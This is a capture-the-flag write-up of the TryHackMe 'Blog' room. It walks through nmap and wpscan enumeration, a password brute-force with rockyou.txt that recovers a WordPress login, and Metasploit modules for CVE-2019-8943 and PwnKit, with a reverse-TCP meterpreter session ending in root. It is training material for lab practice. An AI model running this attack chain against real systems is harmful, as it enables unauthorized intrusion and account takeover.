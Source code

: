 ```yaml
---
title: /writeups/Blog
layout: post
permalink: /writeups/Blog
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/room/blog">"Blog"</a>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
</pre></td><td class="rouge-code"><pre>Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;) 
</pre></td></tr></tbody></table></code></pre></div></div>

<h1>Enumeration</h1>
<p>Obviously the first thing I did was an nmap scan:</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
</pre></td><td class="rouge-code"><pre>$ nmap -T4 -A -sV blog.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 15:42 CET
Nmap scan report for blog.thm < ip >
Host is up (0.069s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joels IT Blog The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
5906/tcp filtered rpas-c2
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: , NetBIOS MAC:(unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-04T14:42:59+00:00
| smb2-time: 
|   date: 2024-02-04T14:42:59
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds 
</pre></td></tr></tbody></table></code></pre></div></div>

I personally didn't even try to enumerate smb further, luckily, I saw in other writeups that it's a honeypot
<p>However, we can see, that on port 80 there's an http server<p>
<h1>HTTP</h1>

<img src="/images/BlogMain.png" alt="Wordpress Home site" />


We can see, that it is a wordpress blog, so I run wpscan (I removed boring stuff): 

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -e u 
Interesting Finding(s):

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
 
[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01
 
[i] User(s) Identified:
 
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
</pre></td></tr></tbody></table></code></pre></div></div>


<p>First of all, it tells us that the wordpress is running on version 5.0. Quick google search gets us CVE-2019-8943 to which, we need user login and password, but wpscan also helps us there as it gives us two usernames - "kwheel" and "bjoel". I decided to bruteforce them because I didn't have any other idea. Also, kwheel seemed to probably care less about her password than her son, so I tried to brute force her user first.</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U kwheel -t 32
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / <oz#mJ@y8C$vq6@>                                                                                                                                                                                                                
Trying kwheel / <oz#mJ@y8C$vq6@> Time: 00:00:46 <                                                                                                                                                              > (<37> / 14347272)  0.02%  ETA: ??:??:??
 
[!] Valid Combinations Found:
 | Username: kwheel, Password: <oz#mJ@y8C$vq6@>
</pre></td></tr></tbody></table></code></pre></div></div>
As you can see we found valid combination. 

<p>I mentioned CVE-2019-8943 before, it turns out, there is a metasploit module which we can use called "exploit/multi/http/wp_crop_rce", after setting up every option and running exploit, we gain a shell!</p>

<h1>PrivEsc</h1>
I saw a nicer way (envolving reverse engineering) to do privelege escalation than I had done, but I will show my simple way using metasploit modules.

<p>The first module I run was "post/multi/manage/shell_to_meterpreter", which made it possible to use exploit suggester (post/multi/recon/local_exploit_suggester)<p/>
<p>Suggester tells us, that the system is vulnerable to CVE-2021-4032</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
</pre></td><td class="rouge-code"><pre>msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 4
session => 4
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lhost tun0
lhost => 37.37.37.37
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lport 9898
lport => 9898
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
 
[*] Started reverse TCP handler on 10.14.68.194:9898 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.pltvpwc
[+] The target is vulnerable.
[*] Writing '/tmp/.zbzpuhuxuf/huogglp/huogglp.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.zbzpuhuxuf
[*] Sending stage (3045380 bytes) to 10.10.22.192
[+] Deleted /tmp/.zbzpuhuxuf/huogglp/huogglp.so
[+] Deleted /tmp/.zbzpuhuxuf/.vtxjvu
[+] Deleted /tmp/.zbzpuhuxuf
[*] Meterpreter session 5 opened (10.14.68.194:9898 -> 10.10.22.192:59766) at 2024-02-04 18:35:48 +0100

meterpreter > shell
Process 5384 created.
Channel 1 created.
whoami
root
</pre></td></tr></tbody></table></code></pre></div></div>
<p>After running which, we gain root access!</p>
<p>Now we can look for flags one of which is hidden in "/media/usb", and move to the next room :D</p>


Thank you for reading
